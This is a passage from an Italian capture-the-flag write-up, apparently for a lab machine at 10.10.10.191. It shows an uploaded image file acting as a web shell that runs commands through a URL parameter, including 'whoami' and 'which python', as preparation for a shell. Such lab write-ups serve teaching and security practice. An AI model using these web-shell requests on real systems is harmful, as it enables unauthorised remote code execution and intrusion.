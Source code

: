 ![](../zzz_rev/attachments/blunder3.png)
non ci resta che visitare http://10.10.10.191/bl-content/tmp/wolf.png?0=whoami per vedere che siamo utenti www-data, dandoci conferma che la RCE funziona.

Ok abbiamo la nostra RCE funzionante è il momento di avere la nostra shell.
Vediamo se è installato python:
`http://10.10.10.191/bl-content/tmp/wolf.png?0=which+python`
il server ci restituisce `/user/bin/python`  perfetto

![](../zzz_rev/attachments/blunder4.png)